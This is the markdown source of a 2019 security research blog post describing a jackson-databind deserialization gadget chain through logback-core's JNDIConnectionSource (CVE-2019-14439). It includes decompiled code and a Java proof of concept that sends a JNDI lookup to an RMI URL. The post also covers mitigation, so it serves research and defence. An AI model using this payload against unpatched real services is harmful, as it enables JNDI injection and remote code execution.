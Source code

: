 ```yaml
---
layout: post
title: "Attacking Unmarshallers :: JNDI Injection using Getter Based Deserialization Gadgets"
date: 2019-08-07 10:00:00 -0500
categories: blog
excerpt_separator: <!--more-->
---
```


<p class="cn" markdown="1">I know you have pwned deserialization of untrusted data bugs before (if you haven't what the hell, they are fun!), but have you pwned an entire REST framework due to a misconfigured marshaller? In this short blog post, we will reveal some quick research that was done based upon the excellent work perform by [Doyensec](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html).</p>
<!--more-->

<p class="cn">TL;DR</p>

<p class="cn" markdown="1">*In this post, I share another gadget chain for FasterXML's jackson-databind using the common logback-core library and not requiring any other libraries. This was a bug collison with [badcode of Knownsec 404 Team](https://twitter.com/80vul/status/1156766341946232832) and marked as CVE-2019-14439.*</p>

## Analysis

<p class="cn" markdown="1">During a quick audit of the logback-core library, I found a gadget chain for the ch.qos.logback.core.db.JNDIConnectionSource class literally the same package as the DriverManagerConnectionSource class</p>

{% include image.html
            img="assets/images/attacking-unmarshallers-jndi-injection-using-getter-based-deserialization/JNDIConnectionSource.png#2"
            title="Next to the DriverManagerConnectionSource class"
            caption="Next to the DriverManagerConnectionSource class"
            style="width:30%;height:30%" %}

<p class="cn" markdown="1">The setter for the class looks pretty standard for `jndiLocation`</p>

```java
/*  90 */   public void setJndiLocation(String jndiLocation) { this.jndiLocation = jndiLocation; }
```

<p class="cn" markdown="1">However, we trigger the `getConnection` method via `ObjectMapper.writeValueAsString` which is used to return JSON objects back to a user via a REST endpoint, we reach the following code:</p>

```java
/*     */   public Connection getConnection() throws SQLException {
/*  54 */     Connection conn = null;
/*     */     try {
/*  56 */       if (this.dataSource == null) {
/*  57 */         this.dataSource = lookupDataSource();         // 1
/*     */       }
```

<p class="cn" markdown="1">So if the dataSource property is not set, the code calls `JNDIConnectionSource.lookupDataSource` at *[1]*</p>

```java
/*     */   private DataSource lookupDataSource() throws NamingException, SQLException {
/*  94 */     addInfo("Looking up [" + this.jndiLocation + "] in JNDI");
/*     */     
/*  96 */     Context initialContext = new InitialContext();                    // 2
/*  97 */     Object obj = initialContext.lookup(this.jndiLocation);            // 3
/*     */ 
/*     */ 
/*     */     
/* 101 */     DataSource ds = (DataSource)obj;
/*     */     
/* 103 */     if (ds == null) {
/* 104 */       throw new SQLException("Failed to obtain data source from JNDI location " + this.jndiLocation);
/*     */     }
/* 106 */     return ds;
/*     */   }
```

<p class="cn" markdown="1">At *[2]* the code gets an instance of the InitialContext class and at *[3]* the code calls `InitialContext.lookup` using the attacker controlled `jndiLocation` property.</p>

<p class="cn" markdown="1">In a context dependant attack, where default typing is enabled for jackson-databind, this can result in JNDI Injection vulnerability.</p>

```java
import java.io.IOException;
import com.fasterxml.jackson.core.JsonParseException;
import com.fasterxml.jackson.databind.JsonMappingException;
import com.fasterxml.jackson.databind.ObjectMapper;

public class JacksonTest {
    public static void main(String[] args) throws JsonParseException, JsonMappingException, IOException {
        
        ObjectMapper objectMapper = new ObjectMapper();
        objectMapper.enableDefaultTyping();

        StringBuilder d = new StringBuilder();
        d.append("[");
        d.append("\"ch.qos.logback.core.db.JNDIConnectionSource\"");
        d.append(",");
        d.append("{");
        d.append("\"jndiLocation\"");
        d.append(":");
        d.append("\"rmi://127.0.0.1:1097/rce\"");       // payload
        d.append("}");
        d.append("]");
 
        Object obj = objectMapper.readValue(d.toString(), java.lang.Object.class);          // trigger getters
        objectMapper.writeValueAsString(obj);                                               // trigger setters
    }
}
```

<p class="cn" markdown="1">There are multiple ways to achieve remote code execution via JNDI injection on older versions of Java using either class loading or attacking the Distrubuted Garbage Collection (DGC) for deserialization of untrusted data, techniques which are all taught in [Full Stack Web Attack](/training).</p> 

## Conclusion

<p class="cn" markdown="1">Getter based deserialization attacks are something to watch out for and can be mitigated by not using default typing. This is not a vulnerability to worry about since it has been patched and requires specific version of java to exploit.</p>

<p class="cn" markdown="1">It's interesting to note that the connection property doesn't exist at all in trhe `JNDIConnectionSource` class, even so, `getConnection` follows the Java bean convention and still gets called!</p>

<p class="cn" markdown="1">FasterXML continue to block individual classes and whilst I see the reasoning behind it, it makes for a cat and mouse game between attackers and defenders and I don't think that is the right approach.</p>

## References

<div markdown="1" class="cn">
- [https://blog.doyensec.com/2019/07/22/jackson-gadgets.html](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html)
- [https://github.com/FasterXML/jackson-databind/issues/2389](https://github.com/FasterXML/jackson-databind/issues/2389)
</div>
